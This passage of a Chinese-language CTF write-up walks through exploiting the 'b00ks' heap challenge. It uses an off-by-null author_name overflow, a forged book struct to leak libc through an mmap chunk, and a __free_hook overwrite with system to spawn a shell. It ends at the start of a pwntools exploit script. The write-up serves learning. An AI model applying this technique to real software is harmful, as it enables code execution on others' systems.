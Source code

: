 因为写入32个字节，所以第33个字节是\x00结束符写入到了book1的低字节处，那么就会将book1_addr和author_name连起来，那么打印author_name时就会顺带把book_addr也打印出来，这样就泄露了book1的地址  
再次修改author_name之后，把book1_addr的低字节覆盖成00，但是我们并不能控制0x0000555555757500这个地址处的数据  
我们看一下book1中的内容  
```shell  
gdb-peda$ x/10gx 0x0000555555757560
0x555555757560:    0x0000000000000001 // ID           0x0000555555757420 // description
0x555555757570:    0x00005555557574c0 // name         0x000000000000008c // description size
0x555555757580:    0x0000000000000000           0x0000000000020a81  // top chunk
0x555555757590:    0x0000000000000000           0x0000000000000000
0x5555557575a0:    0x0000000000000000           0x0000000000000000
```  
我们可以看到被修改完后的地址0x0000555555757500会落在book1_description区域内，那我们就可以写了  
我们在通过修改book1，在0x0000555555757500处伪造一个fake_book1，让fake_book1的name和description指向book2的description，那我们打印book1的时候，就会泄露出book2的description，  
泄露book2的description干什么呢？  
我们看一下book2  
```shell  
gdb-peda$ x/10gx 0x0000559d6fbc3190
0x559d6fbc3190:    0x0000000000000002    0x00007fb26dd49010
0x559d6fbc31a0:    0x00007fb26dd20010    0x0000000000021000
0x559d6fbc31b0:    0x0000000000000000    0x0000000000020e51
0x559d6fbc31c0:    0x0000000000000000    0x0000000000000000
0x559d6fbc31d0:    0x0000000000000000    0x0000000000000000
```  
我们会发现book2的name和description都是0x7f开头的，那么只要我们泄露出来了然后减去一个偏移，就能get到libc_base了  
最后利用__free_hook来构造payload拿shell  
我们知道在调用free函数的时候，当__free_hook内容不为NULL时，会优先执行其内容，我们进行任意写，劫持了hook，就可以劫持程序流  
整理一下思路： 
1.打印出author_name，泄露book1_addr  
2.修改author_name，将book1_addr低字节覆盖成00，使得被覆盖后的指针落在book1的description范围内  
3.创建book2，计算出book2_addr与book1_addr的距离便于寻找book2的description  
4.通过修改book1的description，在被修改后的book1处伪造一个fake_book1，布置使得fake_book1的description和name都指向book2的description  
5.打印book1，泄露libc_base  
6.修改book1，使得book2的name中存放/bin/sh的指针，book2的description中存放__free_hook的指针，然后通过修改book2的description，在__free_hook写入system的指针  
疑问：  
Q：如何在book2的name中存放/bin/sh的指针，book2的description中存放__free_hook的指针？  
A：我们让fake_book1的description指向book2的name，fake_book1的name指向book2的description，就能通过修改book1，直接一并修改book2的name和description  
  
Q：为什么book2的size要设置的很大？  
A：我们知道堆有两种拓展方式一种是brk会直接拓展原来的堆，另一种是mmap会单独映射一块内存。申请一个超大的块，来使用mmap扩展内存。因为mmap分配的内存与libc之前存在固定的偏移因此可以推算出libc的基地址。  
Q：description size存放位置的错误？  
A：没看懂，不知道，挖坑待填……  
还要提一点，就是伪造的fake_book1，要向book2的name中写入/bin/sh的指针，book2的description中写入__free_hook的指针，具体需要通过让fake_book1的description指向book2的name，fake_book1的name指向book2的description，然后edit(1)来实现，但是一开始为了泄露book2的description，将book1的description和name都设置成了book2的description.我在这里直接改了前面的构造，从前面开始就实现了fake_book1_name==>book2_description,fake_book1_description==>book2_name(==>是指向的意思)，一开始就设置成这样了好像也可以   
### exp  
```Python  
#!usr/bin/env python
#coding=utf-8
from pwn import *
context.terminal = ['terminator','-x','sh','-c']
#context.log_level="debug"
p=process("./b00ks")
elf = ELF("./b00ks")
libc = elf.libc
#p=remote("node3.buuoj.cn",25805)
def create(name_size, book_name, des_size, book_des):
    p.recv()
```